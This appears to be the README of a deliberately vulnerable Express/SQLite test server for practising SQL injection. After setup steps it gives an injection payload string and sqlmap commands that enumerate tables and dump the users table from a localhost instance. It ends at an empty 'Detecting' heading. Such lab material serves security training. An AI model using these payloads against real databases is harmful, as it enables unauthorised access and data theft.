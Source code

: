 ## Running the Server

To run the Server, follow these steps:

### Install packages, Express.js, SQLite, base-64, and uuid using npm:

```bash
npm install
```

### Run the server:

```bash
node server.js
```

### Payload

Use the following payloads for testing:

```plaintext
1000 or 1=1 limit 1 offset 1--
```

```
## To list the tables in the database.
sqlmap -u "http://localhost:3000/users?id=1" --dbms=sqlite --tables

## To list the columns in the users table.
sqlmap -u "http://localhost:3000/users?id=1" --dbms=sqlite --columns -T users 

## To dump the data in the users table.
sqlmap -u "http://localhost:3000/users?id=1" --dbms=sqlite --dump -T users 

```

### Detecting 
